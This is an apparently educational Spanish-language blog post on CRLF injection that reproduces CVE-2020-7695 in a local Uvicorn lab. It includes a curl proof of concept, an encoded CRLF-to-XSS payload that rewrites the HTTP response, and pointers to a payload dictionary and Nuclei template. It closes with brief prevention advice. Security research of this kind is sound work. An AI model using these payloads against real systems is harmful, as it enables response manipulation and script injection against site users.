 ```yaml
---
author: joshua_provoste
layout: post
title: Generación de payloads para inyecciones CRLF (Carriage Return Line Feed)
date: 2023-04-04
categories: [Ethical Hacking, CRLF]
---
```


Las inyecciones CRLF (Carriage Return Line Feed) me parecen interesantes: mediante fuzzing se identifica un entry-point que permite saltar de una línea a otra, o inyectar nuevas líneas, para introducir datos de forma arbitraria, reescribiendo, literalmente, un HTTP response.

Al buscar referencias técnicas, uno de los hallazgos más extraños y extravagantes que he leído, es el de una inyección CRLF usando el caracter + en reemplazo de los hexadecimales **%0D%0A** equivalentes a \r\n, para una recompensa de casi $3,000 USD en HackerOne:

- https://blog.innerht.ml/overflow-trilogy/
- https://hackerone.com/reports/53843

## Conceptos básicos sobre inyecciones CRLF

Para revisar los detalles asociados, hemos dispuesto del siguiente repositorio:

- https://github.com/E-Virtus/cybersecurity_tools/tree/master/Inyecciones_CRLF
- Esta vulnerabilidad está contemplada como [inyección (A03) en la versión 2021 del Top 10 de OWASP](https://owasp.org/Top10/A03_2021-Injection/)
- Referencia: https://owasp.org/www-community/vulnerabilities/CRLF_Injection

En el caso de Python, podemos ejemplificar la utilización de CRLF de la siguiente manera:

```py
Python 3.10.4 (main, Apr  2 2022, 09:04:19) [GCC 11.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> a = "CRLF\r\n"
>>> a
'CRLF\r\n'
>>> print(a)
CRLF

>>>
```

A modo de ejemplo, podríamos encontrar esta clase de vulnerabilidades en módulos o dependencias de desarrollo, como por ejemplo Go y Python:

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9741

```go
r, _ := http.NewRequest("GET", "http://localhost:8080/?crlf=HTTP/1.0\nCRLF:Here",nil)
```

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9947

```py
urllib.request.urlopen('http://127.0.0.1:1234/HTTP/1.1\r\nHeader: Value\r\nHeader2: \r\n')
```

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26137

```py
conn.request(method="GET / HTTP/1.1\r\nHost: abc\r\nRemainder:", url="/index.html")
```

## Setup de laboratorio para Inyecciones CRLF

![Uvicorn CVE-2020-7695](https://e-virtus.s3.us-east-2.amazonaws.com/blog/CVE-2020-7695_uvicorn_crlf_2023_04_04.png)

Uvicorn es un servidor web de tipo ASGI para el cual fue registrado el código CVE-2020-7695, asociado a sus versiones anteriores a 0.11.7, por una vulnerabilidad de inyección CRLF. Sin embargo, en el advisory sólo fue publicada una prueba de concepto para inyección de HTTP headers:

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7695
- https://security.snyk.io/vuln/SNYK-PYTHON-UVICORN-570471

Para crear y habilitar el entorno vulnerable con **venv**:

```
python3 -m venv crlf_poc
python3 source crlf_poc/bin/activatec
wget https://github.com/encode/uvicorn/archive/refs/tags/0.11.6.zip
unzip 0.11.6.zip
cd uvicorn-0.11.6
python3 -m pip install -r requirements.txt
python3 setup.py install
```

Con el objetivo de emular la vulnerabilidad, utilicé el siguiente código **crlf.py**:

```py
async def app(scope, receive, send):
    assert scope['type'] == 'http'

    await send({
        'type': 'http.response.start',
        'status': 200,
        'headers': [
            [b'Content-Type', b'text/plain'],[b'X-XSS-Protection',b'1; mode=block'],[b'Referer',scope['path'].encode()],
        ],
    })
    await send({
        'type': 'http.response.body',
        'body': b'POC CRLF - CVE-2020-7695'
    })
```

Finalmente, es necesario ejecutar crlf.py para reproducir completamente el CVE-2020-7695:

```
uvicorn crlf:app --port 1234 --http httptools
```

Entonces, reenviamos un HTTP request a Burp Suite para verificar la inyección de HTTP headers usando el mismo payload publicado en el advisory:

```
curl http://e-virtus.local:1234/foo%0d%0abar:%20baz -x http://127.0.0.1:8080 --insecure
```

![Uvicorn CVE-2020-7695 POC](https://e-virtus.s3.us-east-2.amazonaws.com/blog/CVE-2020-7695_uvicorn_crlf_poc_2023_04_04.png)

## De CRLF (Carriage Return Line Feed) a XSS (Cross-site Scripting) Reflected

Bajo un contexto estricto, las inyecciones de HTTP headers, por sí mismas, no representan un impacto alto, tampoco medio; más bien, son de severidad baja, porque tienen que cumplirse ciertas situaciones para que se incremente la severidad, sin embargo, el advisory del CVE-2020-7695 fue publicado como severidad media, sin la debida comprobación del impacto.

Al utilizarse, por ejemplo, las siguientes HTTP headers, en teoría, una vulnerabilidad de inyección Cross-site Scripting (XSS) no es posible:

```
content-type: text/plain
x-xss-protection: 1; mode=block
```

No obstante, podemos bypassear estas y otras restricciones de configuración y seguridad basadas en HTTP headers (CORS,CSP, etc.), usando payloads como este, en donde seremos capaces de reescribir el HTTP response casi por completo:

```html
%0d%0acontent-type%3a%20text/html%3b+charset%3dutf-8%0d%0a%0d%0a
<script>
  alert("de_CRLF_a_XSS");
</script>
```

![Uvicorn CVE-2020-7695 - Cross-site Scripting (XSS)](https://e-virtus.s3.us-east-2.amazonaws.com/blog/CVE-2020-7695_uvicorn_crlf_cross_site_scripting_1_2023_04_04.png)
![Uvicorn CVE-2020-7695 - Cross-site Scripting (XSS)](https://e-virtus.s3.us-east-2.amazonaws.com/blog/CVE-2020-7695_uvicorn_crlf_cross_site_scripting_2.png)

Es así, entonces, es como se puede incrementar la severidad del CVE-2020-7695, de baja a media, utilizando la inyección de HTTP headers como factor de combinación (bug chaining), y nos abrimos paso a posibles ataques de severidad alta, como por ejemplo, Account Takeover (ATO).

## Generación de payloads para Inyecciones CRLF

Considerando múltiples factores de codificación, combinación, y uso práctico, obtuve un diccionario con 384 payloads nuevos y únicos para inyecciones CRLF, usando este laboratorio de Uvicorn para su comprobación:

- https://github.com/E-Virtus/cybersecurity_tools/tree/master/Inyecciones_CRLF

## Nuclei: comprobación de payloads para amplificación del alcance

Últimamente he utilizado bastante Nuclei como herramienta de automatización, por lo cual decidí crear una plantilla para automatizar la validación (la cual está disponible en el repositorio público de E-Virtus), logrando, el siguiente resultado:

[![Uvicorn CVE-2020-7695 - Cross-site Scripting (XSS)](https://e-virtus.s3.us-east-2.amazonaws.com/blog/CVE-2020-7695_uvicorn_crlf_cross_site_scripting_3_2023_04_04.png)](https://www.youtube.com/watch?v=hkzNsQzS8Sk)
[![Uvicorn CVE-2020-7695 - Cross-site Scripting (XSS)](https://e-virtus.s3.us-east-2.amazonaws.com/blog/CVE-2020-7695_uvicorn_crlf_cross_site_scripting_4_2023_04_04.png)](https://www.youtube.com/watch?v=hkzNsQzS8Sk)

## Prevención y remediación de Inyecciones CRLF

El principal factor a considerar está determinado por las condiciones inusuales e imprevistas que permiten la explotación de esta clase de vulnerabilidades.

- Sanitizar todas las entradas de datos, particularmente las relacionadas a HTTP headers
- No es cierto decir que se trata de una vulnerabilidad "fácil de prevenir" o de identificar, ya que hoy en día el despliegue de proyectos tecnológicos involucran diversos componentes de desarrollo e infraestructura que generalmente quedan fuera del alcance

## ¿Qué más podemos esperar de las inyecciones CRLF?

Tras esta pequeña investigación, uno de los plantemientos técnicos que ya podemos establecer: Blind CRLF Injection.

A la fecha de publicación de este artículo, no existen referencias técnicas para Blind CRLF, pero dado el contexto, es perfectamente reproducible, considerando la amplia difusión de ataques Blind para XSS, SSRF y OS Command Injection.

De forma complementaria, y a partir de las referencias prácticas que fueron usadas para la generación de payloads, la inyección CRLF podría estar presente no sólo en HTTP headers:

- Valores de parámetros en URL como entry-points
- Uso del caracter ? como entry-point de parámetros en URL
- Uso factible de URL encode
- Inyección CRLF como inyección de HTML

Entre muchos otros comportamientos que pueden ser consultados en el repositorio de E-Virtus:

- https://github.com/E-Virtus/cybersecurity_tools/tree/master/Inyecciones_CRLF
